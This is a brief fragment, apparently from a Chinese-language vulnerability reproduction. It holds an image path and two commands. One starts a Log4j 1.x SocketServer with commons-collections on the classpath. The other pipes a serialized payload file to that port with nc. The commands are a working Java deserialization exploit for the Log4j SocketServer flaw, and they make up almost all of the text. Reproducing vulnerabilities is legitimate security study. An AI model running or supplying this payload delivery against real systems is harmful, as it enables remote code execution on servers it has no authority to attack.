  # 执行命令
 java -cp log4j-1.2.17.jar;commons-collections-3.1.jar org.apache.log4j.net.SocketServer 5555 log4j.properties D:\log 4j
 # 发送payload
 nc 192.168.204.1 5555 < log4j.ser